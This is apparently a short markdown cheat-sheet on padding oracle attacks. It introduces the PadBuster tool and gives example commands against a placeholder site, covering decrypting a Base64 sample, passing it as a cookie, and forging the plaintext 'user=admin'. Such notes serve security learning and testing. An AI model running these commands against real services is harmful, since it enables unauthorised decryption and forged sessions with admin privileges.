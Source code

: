 ```yaml
---
title: Padding Oracle Attack
description: 
tags:
    - Cryptography
refs:
date: 2022-12-10
draft: false
---
```


## PadBuster

**[PadBuster](https://github.com/AonCyberLabs/PadBuster)** is automated script for performing Padding Oracle attacks. It’s useful to decrypt AES.

```sh
padbuster <url> <encrypted sample> <block size> [options]
```

Belows are some examples.

```sh
# Encrypted Sample -> 2hN2bBPw==
# 16 -> Block site
# -encoding: 0->Base64, 1->Lower Hex, 2->Upper Hex, 3->NET UrlToken, 4->WebSafe Base64
padbuster https://vulnerable.com/?data=2hN2bBPw== 2hN2bBPw==  16 -encoding 0

# -cookies: specify cookie value
padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw=="

# -plaintext: specify plain text
padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw==" -plaintext "user=admin"
```
